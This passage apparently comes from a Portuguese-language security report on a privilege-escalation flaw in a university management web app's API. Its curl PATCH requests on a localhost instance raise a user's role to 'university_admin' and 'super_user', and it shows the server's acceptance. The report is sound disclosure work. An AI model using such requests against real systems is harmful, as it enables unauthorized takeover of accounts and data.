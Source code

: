 É possível alterar esse atributo do usuário, especificamente o campo "type", 
enviando uma requisição PATCH para a mesma URL que foi utilizada para o GET do 
usuário, com o corpo da requisição contendo o valor "type": "super_user".

## Exemplo de Requisição curl para Alteração:
```
curl --location --request PATCH 'http://localhost:8000/api/university-user/2/' \
--header 'Referer: http://localhost:3000/' \  
--header 'authorization: Token 634363bf594831b3f23e01da566436b13ddb5b8d' \  
--data '{
    "type":"university_admin"
}'  
``` 
Ao realizar essa requisição, recebemos o status HTTP 200 OK e, ao atualizar a 
página, o perfil do usuário é alterado para uma nova Role/autorização de "gestor".

### Resposta do Servidor:

```json
{
    "id": 2,
    "url": "http://localhost:8000/api/university-user/2/",
    "firstName": "João",
    "lastName": "da Silva",
    "email": "admin@ufmg.br",
    "type": "university_admin",
    "createdOn": "2024-12-09T19:07:21.310022",
    "university": 1
}
```
Agora, o usuário tem privilégios de gestão, podendo criar novos usuários com 
permissões de "gestor", gerenciar as pessoas da universidade e realizar todas 
as ações que um gestor pode executar no aplicativo, mesmo sem ter a autorização 
adequada. Esse comportamento ocorre porque a rota não verifica a autorização do 
usuário antes de permitir a alteração do valor do campo "type". Isso configura 
uma vulnerabilidade grave em qualquer sistema.

## Alteração para Super Usuário

Além disso, é possível alterar o tipo de usuário para "super_user", o que concede 
a capacidade de gerenciar pessoas de todas as instituições e 
até mesmo as próprias instituições.

### Exemplo de Requisição curl para Elevar para Super Usuário:
```
curl --location --request PATCH 'http://localhost:8000/api/university-user/2/' \
--header 'Referer: http://localhost:3000/' \
--header 'authorization: Token 8f533fa75dc1ab6af3dabf1fbdf166c28a38ba48' \
--header 'Content-Type: application/json' \
--data '{
    "type":"super_user"
}'
```
Essa vulnerabilidade é extremamente crítica, pois permite que usuários não 
autorizados assumam funções administrativas e ganhem controle sobre todos 
os dados e operações do sistema.
# Conclusão
